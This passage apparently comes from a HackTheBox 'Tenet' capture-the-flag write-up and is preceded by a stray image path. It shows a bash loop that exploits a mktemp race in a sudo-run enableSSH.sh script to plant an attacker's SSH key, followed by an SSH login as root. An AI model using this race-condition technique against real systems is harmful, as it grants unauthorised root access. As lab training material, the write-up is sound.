 ```bash
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Since `mktemp` will create a random file we need to make a race condition
to write our SSH pub key into it.

```bash
#!/bin/bash

key='ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n cyfun@penarch'

while true
do
    echo $key | tee /tmp/ssh-* > /dev/null
done
```

We execute that while running `sudo /usr/local/bin/enableSSH.sh`.
Several tries may be necessary because race conditions doesn't always work the 1st time.

Then we can connect as root.

`ssh root@tenet.htb -i ~/.ssh/id_ed25519`

